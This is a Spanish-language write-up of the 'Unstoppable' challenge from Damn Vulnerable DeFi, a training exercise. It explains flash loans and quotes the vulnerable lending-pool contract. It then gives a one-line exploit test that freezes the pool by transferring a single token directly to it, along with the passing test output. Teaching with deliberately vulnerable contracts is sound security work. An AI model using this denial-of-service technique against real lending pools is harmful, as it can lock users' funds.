 ```yaml
---
title: Solucion al challenge .#1 Unstoppable
date: 2022-01-2
excerpt: Challenge; hay una lending pool con un millon de tokens DVT, estan ofreciendo flash loans gratis. Si tan solo existiera una forma de atacar la pool y detenerla... Comenzaras con 100 DVT tokens.
---
```


### Antes que nada que es un flash loan?

Un flash loan es un prestamo que se puede pedir a travez de un contrato sin la necesidad de poner un colateral. El funcionamiento es bastante sencillo, hay un contrato que contiene los tokens a ser prestados, mediante otro contrato se pide prestada la cantidad deseada, el contrato entrega los tokens y devuelve el control al contrato que hizo el prestamo, luego esos tokens se utilizan y se devuelven.

[Flash loans por binance academy](https://academy.binance.com/es/articles/what-are-flash-loans-in-defi)

# Cual es el problema con Unstoppable

Unstoppable es una pool que ofrece flash loans, el problema principal es que tiene un bug que permite a un usuario malicioso bloquear todos los tokens para siempre y que nadie mas pueda pedir un prestamo.

El problema esta en la linea 40 del contrato *UnstoppableLender.sol* donde hace este require `assert(poolBalance == balanceBefore);` 

[UnstoppableLender.sol](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/contracts/unstoppable/UnstoppableLender.sol#L40)
```js
  // Function para pedir el flashloan contrato UnstoppableLender.sol
  function flashLoan(uint256 borrowAmount) external nonReentrant {
    require(borrowAmount > 0, "Must borrow at least one token");

    uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
    require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

    // Ensured by the protocol via the `depositTokens` function
    assert(poolBalance == balanceBefore);
    
    damnValuableToken.transfer(msg.sender, borrowAmount);
    
    IReceiver(msg.sender).receiveTokens(address(damnValuableToken), borrowAmount);
    
    uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
    require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
  }
```

## Vector de ataque

Este tipo de ataque se los conoce como [*DoS* _denial of service_](https://consensys.github.io/smart-contract-best-practices/known_attacks/#dos-with-unexpected-revert)

Para ejecutar este ataque solo basta con enviar un token DVT al lending pool, de esta forma la variable `poolBalance` jamas sera igual a `balanceBefore`, esto se debe a que la variable poolBalance cambia usando la funcion `deposit` y `balanceBefore` usa un `balanceOf`, en resumen, este contrato espera que solo depositen DVT tokens a travez de la funcion deposit y no tiene que encuenta que alguien podria transferir tokens DVT por que si.

## Exploit

Solo basta agregar esto en [unstoppable.challenge.js](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/test/unstoppable/unstoppable.challenge.js#L41)

```js
    it('Exploit', async function () {
        await this.token.connect(attacker).transfer(this.pool.address, "1");
    });
```

Luego correr el test;
```
$: npx hardhat test test/unstoppable/unstoppable.challenge.js

  [Challenge] Unstoppable
    ✓ Exploit


  1 passing (858ms)

```